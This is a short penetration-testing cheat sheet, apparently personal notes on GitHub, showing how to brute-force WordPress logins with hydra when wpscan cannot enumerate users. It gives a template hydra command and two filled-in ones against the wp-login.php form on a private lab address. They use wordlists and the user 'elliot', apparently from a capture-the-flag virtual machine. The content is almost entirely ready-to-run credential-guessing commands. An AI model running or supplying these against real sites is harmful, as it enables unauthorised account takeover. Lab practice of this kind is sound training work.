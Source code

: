 ## wplogin 
`when wpscan can't enumerate users`
```
hydra -L USERFILE -P PASSWORDFILE DOMAIN/IP METHOD "REDIRECTIONURL:PARAMETERS:FAILMESSAGE:H=COOKIES"
```
**FOR POST req** - http-post-form

**FOR GET req** - http-get-form

tip : just copy the post request and arrange it

**username** 
```bash
hydra -L fsocity.dic -P /usr/share/wordlists/wfuzz/others/common_pass.txt 192.168.56.115 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.115%2Fwp-admin%2F&testcookie=1:Invalid username" -V
```

**password**

```bash
hydra -vV -l elliot -P password-list 192.168.56.115 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'
```
